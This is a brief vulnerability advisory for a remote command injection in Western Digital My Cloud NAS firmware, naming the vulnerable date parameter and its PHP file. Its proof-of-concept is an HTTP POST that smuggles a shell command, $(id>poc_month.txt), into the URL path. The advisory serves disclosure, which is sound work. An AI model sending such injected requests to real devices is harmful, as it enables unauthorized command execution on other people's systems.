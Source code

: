 ## Western Digital My Cloud NAS

### Description

The  parameter **$month** in `setDataTime` function in the file `\usr\www\application\models\settingsregional.php`  has a Remote Command Injection vulnerablilty .

`\usr\www\application\models\settingsregional.php`

### POC

```
POST /settings/setDateTime/2000/12$(id>poc_month.txt)/12/12/12 HTTP/1.1
Host: XXXXXXX
```

### Example 